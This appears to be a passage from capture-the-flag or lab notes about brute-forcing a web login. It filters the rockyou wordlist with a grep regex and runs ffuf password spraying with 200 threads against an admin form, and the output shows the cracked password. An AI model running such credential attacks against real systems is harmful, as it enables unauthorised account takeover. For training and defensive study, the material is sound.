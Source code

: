 Password is:

```
Ramirez120992
```

### Alternative filtering
---


We can do the following wordlist filter too:

```bash
grep -P '^(?=.*[A-Z])(?=.*[a-z])(?=.*\d).{10,}$' /usr/share/wordlists/rockyou.txt > filtered_rockyou.txt
```

```ad-important
#### Breakdown
---
(GNU grep withÂ `-P`):

- `-P`: Enables Perl-Compatible Regular Expressions (PCRE).
    
- `(?=.*[A-Z])`: Lookahead for at least one uppercase character.
    
- `(?=.*[a-z])`: Lookahead for at least one lowercase character.
    
- `(?=.*\d)`: Lookahead for at least one digit.
    
- `.{10,}`: Ensures a minimum length of 10 characters.

```

And we'll get the same output:

```
ffuf -w filtered_rockyou.txt -u http://94.237.55.96:36280/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username" -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://94.237.55.96:36280/index.php
 :: Wordlist         : FUZZ: /home/samsepiol/filtered_rockyou.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=admin&password=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Invalid username
________________________________________________

Ramirez120992           [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 204ms]
```

